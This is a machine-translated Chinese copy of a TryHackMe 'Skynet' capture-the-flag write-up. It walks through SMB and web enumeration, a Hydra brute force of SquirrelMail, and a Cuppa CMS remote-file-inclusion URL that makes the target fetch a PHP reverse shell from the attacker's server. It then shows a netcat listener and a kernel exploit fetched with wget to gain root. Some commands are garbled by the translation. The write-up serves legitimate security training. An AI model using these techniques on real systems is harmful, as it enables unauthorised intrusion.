# TryHackMe-天网 CTF 写文章(详细)

> 原文：<https://infosecwriteups.com/tryhackme-skynet-ctf-writeup-detailed-a134e6396b8e?source=collection_archive---------3----------------------->



CTF 报道#20

欢迎各位！！我们将在 [TryHackMe](https://medium.com/u/dc49a0a3cb16?source=post_page-----a134e6396b8e--------------------------------) 做天网 CTF。CTF 的灵感来自标志性的终结者电影系列。CTF 是攻击性安全学习路径的一部分，虽然难度标记为“简单”,但尝试一下是非常可取的，并且肯定会提高您的技能，增强您跳出框框思考的能力，并最终打破框框。

CTF 链接:

 [## 网络安全培训

### TryHackMe 是一个学习网络安全的在线平台，使用动手练习和实验室！

tryhackme.com](https://tryhackme.com/room/skynet) 

CTF 由以下作者创作:

 [## 试用版|试用版

### TryHackMe 是一个学习网络安全的在线平台，使用动手练习和实验室！

tryhackme.com](https://tryhackme.com/p/tryhackme) 

为您的 CTF 计算机创建一个目录，并为 Nmap 创建一个目录来存储您的 Nmap 扫描输出。



让我们开始冒险吧！！享受流动吧！！

## 任务 1-部署并危害易受攻击的机器:



任务列表

## Nmap 扫描:

> *nmap-sC-sV-p--oN nmap/skynet _ all ports<TARGET _ IP>*
> 
> -sC:默认脚本
> -sV:版本检测
> -oN:输出将存储在您之前创建的“nmap”目录中
> -p-:扫描所有端口



我们开放了 6 个端口:
22/ssh-OpenSSH 7.2 p2
80/http-Apache httpd 2 . 4 . 18
110/pop 3-Dovecot pop 3
139/NetBIOS-SSN-Samba smbd 3。X-4。x
143/IMAP-Dovecot imapd
445/NetBIOS-SSN-Samba smbd 4 . 3 . 11

## Gobuster:

> *gobuster dir-u http://<TARGET _ IP>-w<PATH _ TO _ word list>-o<OUTPUT _ FILE _ NAME>-x<EXTENSIONS>*
> 
> -u:URL
> -w:word list
> -q:quiet，静默扫描。将隐藏横幅
> -o:输出将存储在目录
> -x:搜索扩展名，如 html、txt、php、phtml 等



发现了一些目录。我们将逐一检查。

> 导航到 http://<target_ip></target_ip>



检查页面的源代码是否有隐藏的注释总是好的。查看 URL 页的源代码。



看起来很好。没有隐藏。我们将通过导航到 gobuster 扫描输出中发现的目录来继续我们的枚举过程。

> 导航到 http:// <target_ip>/admin</target_ip>



我们没有权限访问管理页面。没关系，我们会继续前进。

导航到 http:// <target_ip>/config</target_ip>



又一次没有许可。

> 导航到 http:// <target_ip>/ai</target_ip>



> 导航到 http:// <target_ip>/squirrelmail</target_ip>



终于有办法了。😃。我们有一个登录提示，它清楚地向我们表明，我们首先需要凭据来访问邮件，其中基本上包含有用的信息。

让我们开始寻找凭证。

我们有更多的服务来列举。我们可以使用“enum4linux”工具开始枚举 smb 共享。希望我们能在那里找到一些东西来帮助我们做进一步的列举。

## Enum4linux:

> enum4linux -a<target_ip></target_ip>



我们获得了一些非常有用的信息。我将从下面的输出中包括重要的位。



太棒了！！
我们已经获得了用户名“milesdyson”和“匿名 smb share ”,我们可以访问它们。

让我们访问匿名共享，使用“get”命令将我们可能找到的文件传输到我们的主机上，并检查它们。



> /日志



> /书籍



目录/书籍将包含许多书籍，这些书籍是获得知识的好读物，但它们不会对我们找到这个盒子有帮助。然而，我会建议你转让你感兴趣的或者保持原样。

退出 smbclient，并开始检查我们传输的文件。

> attention.txt



我们之前在“迈尔斯·戴森”上发现的用户留言要求所有天网员工修改密码。

> log1.txt



大概是密码的单词表。我们以后会用到它。

> log2.txt



这是一个空文件。

> log3.txt



又是空文件。

太棒了。！
现在怎么办？我们有一个单词表，一个用户名，一个 squirrelmail 登录门户，一个 ssh 端口打开。我不认为宋承宪会成为我们的突破口。我们需要访问 squirrelmail 邮件。九头蛇会完成任务，工作起来很有魅力。



太棒了！！我们已经成功获得了密码和第一个问题的答案。提交吧。

> 迈尔斯的电子邮件密码是什么？
> 答:XXXXXXXXXXXXXXXXXXXXXXX

继续学习 squirrel mail……

> 导航到 http:// <target_ip>/squirrelmail</target_ip>



登录，我们就进去了。



嗯…让我们看看第一封邮件。



太棒了。！我们已获得“milesdyson”共享的 SMB 密码。看密码的复杂程度。当然，暴力破解这个密码是不可能的😄。

查看第二封邮件。



看起来像二进制。我们可以试着用我的在线工具 Cyberchef 解码。

 [## 网络咖啡馆

### 网络瑞士军刀-一个用于加密、编码、压缩和数据分析的网络应用程序

gchq.github.io](https://gchq.github.io/CyberChef/) 

什么？球对我来说是零，对我来说是零，对我来说是零，对我来说是零，对我来说是零……但我不确定这意味着什么。这可能只是个玩笑，也可能不是。我们最终会发现的。

最后是第三封邮件。



哼。又一次球传给了我，传给了我，传给了我……..没什么有用的。

现在我们已经获得了“miles Dyson”SMB 共享的密码，我们可以枚举它了。



> /备注



文件“important.txt”看起来很重要😃。因此，我们将“得到”它并检查它。



厉害！！我们已经获得了引导我们找到潜在可利用的 CMS 的目录，并且该目录回答了任务的问题。提交吧。

> 什么是隐藏目录？
> 答:XXXXXXXXXXXXXXXXX

> 导航到 http:// <target_ip>/XXXXXXXXXXXXXXXXX</target_ip>



检查源代码。[Ctrl+U]



我们之前已经发现了隐藏目录，因此我们将尝试使用“gobuster”进行目录模糊化。希望我们能找到 CMS 门户的目录。



> 导航到 http://<target_ip>/XXXXXXXXXXXXXXX/administrator</target_ip>



> 我们可以搜索 CMS 的漏洞。
> searchsploit Cuppa



> 我们可以在我们的主机上下载漏洞。
> search sploit-m<PATH _ TO _ EXPLOIT>



该漏洞是远程文件包含

> 当您可以出于恶意目的包含远程文件时，该漏洞称为什么？
> Ans:远程文件包含

我们将使用“less”命令来检查漏洞。



我们需要按照上面提供的说明来成功利用漏洞，并有希望得到一个外壳。

我们需要一个反向外壳脚本，我的反向外壳是 PentestMonkey Github Repo。我们可以下载 php-reverse-shell 脚本。反向 shell 脚本完美地工作，并将完成工作。

 [## pentest monkey/PHP-reverse-shell

### 通过在 GitHub 上创建一个帐户，为 pentest monkey/PHP-reverse-shell 开发做出贡献。

github.com](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

我们需要在脚本中更改主机的 IP 值和端口值。纳米'它和编辑。



保存它[Ctrl+O]，退出它[Ctrl+X]。将 shell 文件移动到一个目录中。



现在我们需要在 shell 目录中使用 python 来设置 SimpleHTTPServer。



太好了！！
启动 netcat 监听器。



重温入侵指令。

我们现在将精确地遵循漏洞利用指令，并获得一个 shell。手指交叉。

> 导航到 http://<target_ip>/xxxxxxxxxxxxxx/administrator/alerts/alert configfield . PHP？URL config =[http://<HOST _ IP>:PORT/PHP-reverse-shell . PHP](http://10.10.106.250:8000/php-reverse-shell.php)</target_ip>

检查 netcat 监听器。

太棒了。！
我们成功获得了壳牌。
但是壳不是稳定的壳。
我们如何获得一个稳定的外壳？让我给你带路。



> $ python-c ' import pty；pty . spawn("/bin/bash ")'
> Ctrl+Z
> stty raw-echo
> fg
> export TERM = xterm

我们现在有一个稳定的外壳。
上面的命令将让您通过 TAB 键自动完成，清除屏幕，在 shell 中轻松导航。

让我们寻找我们的用户标志！



干得好！！我们获得了用户标志。提交吧。

> 什么是用户标志？
> 答:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

现在怎么办？是的，你确实认为这是对的。我们必须提升此机器的权限，才能成为 root 用户并获取 root 标志。

让我们做一些手工枚举。我们可以从检查任何计划在 crontab 中运行的脚本开始。



是的，在用户“milesdyson”主目录中确实有一个，并且该脚本以用户“root”身份运行，因此它可能会帮助我们提升权限。

我们需要首先检查脚本，因此导航到备份目录并“减少”脚本。



我们没有对“backup.sh”文件的写权限。我们可以尝试不同的方式来提升权限。让我们使用“uname -a”找到内核版本，然后搜索指定内核版本的任何漏洞。



> *搜索漏洞利用:*
> 搜索漏洞利用 Linux 4.8



> *检查漏洞:*
> searchsploit -x 43318.c



我们得到了在受害机器上编译漏洞的指令。我们肯定会这样做。

我们发现了一个与 Linux 内核版本完全匹配的漏洞，它主要用于本地权限提升。我们将它下载到我们的主机上，在漏洞所在的目录中使用 Python 设置一个简单的 HTTPServer，在受害者机器上，我们将“wget”下载漏洞，编译漏洞，使其可执行并运行它。

让我们一步一步地完成它。

> 在主机上下载漏洞。



> 设置 SimpleHTTPServer。



> 在受害机器上的“/tmp”目录中“wget”该漏洞。



> 编译漏洞。



> 使漏洞可执行。



> 运行漏洞。



瞧啊。！宏伟！！我们已经成功升级了权限。
我们现在可以确认我们是 root 了。

让我们抓住根旗，给这个盒子一个美好的结局。



提交吧。

> 根旗是什么？
> Ans:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx



我们已经完成了房间。我真的很喜欢这个房间，并从中获得了很多乐趣。我会建议每个人都尝试一下这个房间，我相信你会学到一些新的东西。

如果你喜欢这篇文章，并且这篇文章对你有所帮助，请在评论中告诉我，或者用掌声分享你的爱。

谢谢你抽出时间。

跟着我。

更多的报道正在进行中。

保重，注意安全，继续黑！

**-哈桑·谢赫**